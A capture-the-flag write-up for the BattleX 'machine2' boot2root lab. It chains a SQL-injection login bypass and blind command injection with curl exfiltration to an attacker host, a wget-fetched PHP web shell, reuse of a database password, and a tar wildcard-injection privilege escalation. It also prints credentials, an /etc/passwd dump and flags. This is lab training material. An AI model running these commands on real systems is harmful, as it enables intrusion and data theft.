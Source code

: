 ## BattleX CTF: machine2 
#### Category: Boot2Root
#### Score: 110
#### Number of Solves: 5 [First Blood 🩸] 
#### Machine name
### Description

> Ready to go

###  TL; DR

Exploit command injection to password reuse to wildcard injection on sudo tar to gain root access

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 21:47 WAT
Nmap scan report for 10.10.27.9
Host is up (0.63s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Big Hacking Book Store

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 21.00 seconds
```

### Exploring

![Imgur](https://i.imgur.com/vxHYIir.png)

_front page_

Nothing much in the source code, just links to a login page and register page that didn't exist

![Imgur](https://i.imgur.com/7AYjkla.png)

_Login page_

Since there was no registration page and I didn't want to fuzz for files or directories, I tried a basic SQL injection to bypass the login page, and it worked.

```
Username: '--
Password: '
```
Login page bypassed and greeted by a ping system in /pingsystem.php .

![Imgur](https://i.imgur.com/lsA4hKP.png)

This will likely be vulnerable to command injection, I just have to find a way to trigger the command injection. 

![Imgur](https://i.imgur.com/tz2d93t.png)

My form data was 

```
127.0.0.1; sleep 5
```

After several trials of several techniques of chaining commands, I found the one that works. 

```
127.0.0.1 `sleep 5`
```

The result didn't show, but the delay was sure executed by the system and I concluded it was vulnerable to blind command injection.

### Exploiting 

I proceeded to host a http server to get a result from my blind command injection. That way, it will be possible for me to get an insight of what's going on.

With some Python scripting and tweaking, I got an insight of the directory structure, current user and id

```
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(ls -lah)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(pwd)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(whoami)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(id)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(wget -O images/exploit.php http://MY_IP:8090/ex.php)" http://MY_IP:8080/`
```

![own](https://i.imgur.com/bBqJg6t.png)

I let the server wget my php shell to the /images folder since I can write there (I tried with the current directory and it didn't work)

![Imgur](https://i.imgur.com/TIWTlQX.png)

With my netcat listening. I got shell

![Imgur](https://i.imgur.com/ZHlh9ck.png)

### Escalating privileges

```
www-data@BattleX:/var/www/html$ cat db.php
cat db.php
<?php
// db.php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$servername = "localhost";
$username = "hacksparo";
$password = "hacksparoisthebest123";
$dbname = "books";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}
?>
```

There's a credential in the db.php. It is totally possible for this credential to be used for an actual user in the system. 

```
www-data@BattleX:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[snip]
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
[snip]
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
hacksparo:x:1000:1000:,,,:/home/hacksparo:/bin/bash
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
```
Sure, there's a user hacksparo in the system. I upgraded my shell to a python spawned one so I can try out the credentials.

![Imgur](https://i.imgur.com/1sGZp3s.png)

I am user hacksparo, time to get flag. 

```
hacksparo@BattleX:~$ cat user.txt
cat user.txt
BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}
```
User flag: `BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}` 

### Getting root access

```
hacksparo@BattleX:~$ sudo -l
sudo -l
Matching Defaults entries for hacksparo on BattleX:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacksparo may run the following commands on BattleX:
    (ALL) NOPASSWD: /bin/bash /opt/backup/backup.sh
```

With `sudo -l`, I can get if hacksparo can run sudo generally or only on one or two commands, sure enough, hacksparo can only run this specific command `sudo /bin/bash /opt/backup/backup.sh` on the machine. 

```
hacksparo@BattleX:~$ cat /opt/backup/backup.sh
#this is a test

sudo tar -cf backup.tar *
```
I can't alter the file to change its content but I can only run the script. `tar` can be exploited to gain access. The exploit is known as wildcard injection. The process I took was this 

```bash
echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh    
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Running that and running `sudo /bin/bash /opt/backup/backup.sh` will copy bash from /bin/ directory to my current direcotry and set suid bit to it. 

```
hacksparo@BattleX:~$ echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh
hacksparo@BattleX:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
hacksparo@BattleX:~$ echo "" > --checkpoint=1
hacksparo@BattleX:~$ ls
'--checkpoint=1'  '--checkpoint-action=exec=sh shell.sh'   shell.sh   user.txt
```

![Imgur](https://i.imgur.com/39rdvXd.png)

success, now I can run `./bash -p` and get root access

![Imgur](https://i.imgur.com/Ti6Q0M6.png)

```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}
```
Root flag: `BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}`

![Not bad meme](https://media1.tenor.com/m/pK9Gkdmh-mAAAAAC/notbad-soccer.gif)
Not bad.